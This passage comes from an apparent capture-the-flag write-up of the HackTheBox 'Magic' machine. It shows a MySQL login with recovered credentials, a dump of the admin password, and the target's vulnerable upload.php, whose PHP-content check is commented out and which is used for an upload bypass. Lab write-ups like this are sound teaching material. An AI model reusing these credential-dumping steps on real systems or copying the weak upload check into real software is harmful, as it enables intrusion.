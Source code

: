 		```
3. Access `mysql` and query `Magic` database
	```
	┌──(root💀kali)-[~/htb/magic]
	└─# mysql --user=theseus --password=iamkingtheseus --host=127.0.0.1 Magic
	
	MySQL [Magic]> show tables;
	+-----------------+
	| Tables_in_Magic |
	+-----------------+
	| login           |
	+-----------------+
	1 row in set (0.036 sec)
	
	MySQL [Magic]> SELECT * FROM login;
	+----+----------+----------------+
	| id | username | password       |
	+----+----------+----------------+
	|  1 | admin    | Th3s3usW4sK1ng |
	+----+----------+----------------+
	1 row in set (0.037 sec)
	
	MySQL [Magic]>
	```
	![]({{ page.img_path }}Pasted%20image%2020220927155345.png)
	- `admin:Th3s3usW4sK1ng`

## How did we do a file upload bypass?
1. View `upload.php`
	```php
	<?php
	$target_dir = "images/uploads/";
	$target_file = $target_dir . basename($_FILES["image"]["name"]);
	$uploadOk = 1;
	$allowed = array('2', '3');
	
	    $imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
	    if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg") {
	        echo "<script>alert('Sorry, only JPG, JPEG & PNG files are allowed.')</script>";
	        $uploadOk = 0;
	    }
	
	    if ($uploadOk === 1) {
	        // Check if image is actually png or jpg using magic bytes
	        $check = exif_imagetype($_FILES["image"]["tmp_name"]);
	        if (!in_array($check, $allowed)) {
	            echo "<script>alert('What are you trying to do there?')</script>";
	            $uploadOk = 0;
	        }
	    }
	        //Check file contents
		    /*$image = file_get_contents($_FILES["image"]["tmp_name"]);
		    if (strpos($image, "<?") !== FALSE) {
		        echo "<script>alert('Detected \"\<\?\". PHP is not allowed!')</script>";
		        $uploadOk = 0;
		    }*/
	    if ($uploadOk === 1) {
	        if (move_uploaded_file($_FILES["image"]["tmp_name"], $target_file)) {
	            echo "The file " . basename($_FILES["image"]["name"]) . " has been uploaded.";
	        } else {
	            echo "Sorry, there was an error uploading your file.";
	        }